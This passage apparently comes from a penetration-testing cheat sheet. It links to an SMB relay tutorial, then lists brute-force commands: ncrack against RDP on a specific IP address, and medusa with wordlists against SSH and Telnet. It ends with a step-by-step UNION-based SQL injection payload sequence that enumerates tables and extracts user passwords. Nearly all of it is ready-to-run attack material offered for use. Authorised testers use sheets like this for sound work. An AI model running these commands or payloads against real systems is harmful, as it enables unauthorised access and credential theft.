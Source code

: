 #### SMBRelayx.py

https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python/?utm_medium=Social&utm_source=Twitter&utm_content=SANSPenTest+BLOG+SMB+Relay+Demystified&utm_campaign=SANS+Pen+Test

### Brute Force Techniques

RDP Brute
```
    ncrack -u administrator -P 500-worst-passwords.txt -p 3389 10.212.50.21
```

SSH Brute
```
    medusa -M ssh -C /usr/share/wordlists/ssh.lst -H 22.txt -T 10| grep SUCCESS |tee medusa-results.txt
```

Telnet Brute
```
    medusa -M telnet -C /usr/share/wordlists/telnet.lst -H 23.txt -T 10 -t 3| grep SUCCESS |tee medusa-results.txt
```

## Web Exploitation
### SQL

#### SQLi Examples
```
    secret' or 1=1 limit1;#
    #Find number of columns return by the Select statement
    ?id=738 order by 1,2,3,4...n until error is received

    #Use union select statement to append query to the original
    #union Select statement must have same number of columns as original Select statement
    ?id=738 union select 1,2,3,4,5,6

    #Get DB Version
    ?id=738 union select 1,2,3,4,@@version,6

    #Get DBUser
    ?id=738 union select 1,2,3,4,user(),6

    #Get tables from all databases
    ?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables

    #Get Table Columns
    ?id=738 union select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'

    #Get User passwords
    ?id=738 union select 1,2,3,4,concat(name,0x3a,password),6 FROM users
```

